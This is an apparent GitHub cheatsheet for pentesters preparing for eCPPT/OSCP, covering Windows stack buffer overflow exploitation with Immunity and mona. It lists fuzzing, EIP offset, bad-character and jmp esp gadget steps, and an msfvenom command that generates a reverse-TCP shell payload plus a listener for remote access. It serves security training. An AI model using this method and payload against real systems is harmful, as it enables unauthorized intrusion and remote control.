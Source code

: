 # Buffer overflow cheatsheet for pentesters
This will be a cheatsheet for exploitation of binary services, aimed at pentesters preparing for exams like eCPPT and OSCP (look at other resources for training about binary exploitation in general, like [pwnable.kr](https://pwnable.kr/)).

## BOF Windows (no protections, stack buffer overflow)
Suppose you find an open port, you don't know what service is on it but then you realize that there is a custom binary, by interacting with it with netcat. You may have obtained the binary for that service by interacting with other services (e.g., a path traversal vulnerability in a web application) or from external sources (e.g., OSINT).

### Preparing a local environment for testing the service
At this point, you can't make the service crash by fuzzing it on the target server, you need a reliable exploit. So, you fire up your Windows 7 VM with debugging tools installed (Immunity with mona). You copy the binary there, open it with Immunity, then you run it (`Debug -> Run`). Now you have a local execution of the service you can play with: if the binary crashes, you can see its crash state and restart it.

### Mona cheatsheet
Since you're going to use mona at some points, here's a short cheatsheet for it:
- `!mona config -set workingfolder c:\mona\%p`, run this when you open Immunity debugger, to make mona easier to use (you can change the path if you want).
- `!mona findmsp -distance <NUMBER>`, run this after crashing the binary with a payload generated with `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <NUMBER>`, basically it should read the bytes in EIP and recognize what is the offset of these bytes in the input payload, so that you quickly find the offset of the return address in the stack buffer on which overflow was performed ("EIP offset").
- `!mona bytearray -b "\x00"`, generate a bytearray excluding NULL byte (bad character) and save it into `bytearray.bin` in mona working folder (you can add other bad chars like `"\x00\x08"`).
- `!mona compare -f <path_to_bytearray.bin> -a <address>`, run this after crashing the binary with a payload containing the same contents of the bytearray generated using `!mona bytearray`: the idea is to compare _expected_ and _actual_ to find bad chars; since bad chars may be filtered according to the presence of other bad chars (i.e., there can be some false positive), after running this and having obtained a list of bad chars, you should repeat the generation, crash and comparison by adding only one bad char from the list at a time. These steps must be repeated until the result status returns "Unmodified". Usually, since the binary crashes after performing RET instruction, because at that point EIP will have an invalid value, you can design the payload such to put the _expected_ bytearray after the return address, so that at the crash state of the binary ESP will point to the buffer containing the _actual_ bytearray with which the comparison must be performed.
- `!mona jmp -r esp -cpb "\x00"`, find all JMP gadgets that have ESP register as operand, and whose addresses don't contain the bad char "\x00" (you can add other bad chars like `"\x00\x08"`); if you use the `jmp esp` technique to jump to the payload, then the payload must be like: `padding | jmp_esp_gadget | shellcode`, where the `jmp_esp_gadget` is placed at EIP offset.
- `!mona modules`, find unprotected modules: this could be useful since some modules may have protections enabled, so you will just exploit the presence of unprotected ones.

### Exploitation steps
Suppose that the binary exposes an interface with one or more commands. In theory, all the steps described below can be repeated for any single command, even if the interaction is complex: you have to try long inputs on any command, sub-command, on any prompt, and when you find the vulnerable one, in your script you have to perform the necessary interactions to reach the vulnerable part of the binary. Having said that, it's possible to describe the exploitation steps as if it were only one vulnerable prompt, without complex interactions.

The steps for the exploitation can be summarized as follow:
1. Fuzz the prompt by sending a buffer of increasing length, to roughly find at which length the binary crashes; this requires opening different connections.
2. Use cyclic patterns to find EIP offset; this should only require one connection, after restarting the debug in Immunity (after the previous crash).
3. Find bad characters by iterating the _expected_ versus _actual_ comparison (described in mona cheatsheet); this requires a few connections, but each one with a restart of the debug and generation of a new bytearray with mona with a new bad character.
4. Find gadgets, for example `jmp esp` to jump to a shellcode placed after the return address, or otherwise find another way to redirect the execution flow to a shellcode included in the input. Remember about bad characters when designing a gadget chain.
5. Generate the shellcode with msfvenom: `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c`, the `-b` option should be updated with the bad characters found in step 3.
6. Prepend some NOPs to the shellcode, to make sure that the shellcode executes in aligned addresses and also to give it some more space in memory; usually, 16 NOPs should be enough.
7. Start a listener on the port specified in the LPORT parameter in step 5, and run the exploit with the final payload to get the shell. It's better a reverse TCP listener on metasploit than a simple netcat one, because on metasploit you can then upgrade the session to a meterpreter session.
